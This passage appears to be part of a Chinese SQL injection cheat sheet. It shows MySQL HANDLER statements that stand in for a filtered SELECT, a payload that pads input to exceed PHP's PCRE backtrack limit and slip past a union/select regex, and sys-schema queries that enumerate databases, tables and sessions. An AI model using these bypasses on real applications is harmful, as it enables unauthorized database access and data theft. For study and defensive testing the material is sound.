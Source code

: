 |LOWER(str)|将字符串的大写字母全部转成小写, 同`LCASE(str)`.|
|UPPER(str)|将字符串的小写字母全部转成大写,同`UCASE(str)`.|
|ELT(N,str1,str2,str3,...)|与`MAKE_SET(bit,str1,str2...)`类似, 根据`N`返回参数值.|
|NULLIF(expr1,expr2)|若`expr1`与`expr2`相同, 则返回`expr1`, 否则返回`NULL`.|
|CHARSET(str)|返回字符串使用的字符集.|
|DECODE(crypt_str,pass_str)|使用`pass_str`作为密码, 解密加密字符串`crypt_str`; 加密函数`ENCODE(str,pass_str)`.|

## SELECT 绕过
当`select`关键词被过滤时, 可以用`handler`语句来代替`select`进行查询. 这是因为, `handler`语句可以一行一行的浏览一个表中的数据, 不过`handler`语句并不具备`select`语句的所有功能, 它只是`MySQL`专用的语句, 并没有包含到`SQL`标准中.

`handler`语法结构:

```sql
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

```sql
handler users open as h3rmesk1t;     # 指定数据表进行载入并将返回句柄重命名
handler h3rmesk1t read first;        # 读取指定表/句柄的首行数据
handler h3rmesk1t read next;         # 读取指定表/句柄的下一行数据
handler h3rmesk1t read next;         # 读取指定表/句柄的下一行数据
...
handler h3rmesk1t close;             # 关闭句柄
```

## PHP/union.+?select/ig 绕过
在有些特定情况下会出现禁止`union`与`select`同时出现, 从而引入正则语句`/union.+?select/ig`来判断输入数据.

`PHP`为了防止正则表达式的拒绝服务攻击(reDOS), 给`pcre`设定了一个回溯次数上限`pcre.backtrack_limit`, 若输入的数据使得`PHP`进行回溯且此数超过了规定的回溯上限此数(默认为`100`万), 那么正则停止, 返回未匹配到数据, 故可以构造`Payload`: `union/a*100w(充当垃圾数据)/select即可绕过正则判断`. 参考: [PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html).

## SYS 系统库
```sql
# 查询所有的库.
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;

# 查询指定库的表(若无则说明此表从未被访问).
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;

# 统计所有访问过的表次数: 库名, 表名, 访问次数.
select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by table_schema,table_name order by io desc;

# 查看所有正在连接的用户详细信息: 连接的用户(连接的用户名, 连接的ip), 当前库, 用户状态(Sleep就是空闲), 现在在执行的sql语句, 上一次执行的sql语句, 已经建立连接的时间(秒).
SELECT user,db,command,current_statement,last_statement,time FROM sys.session;
```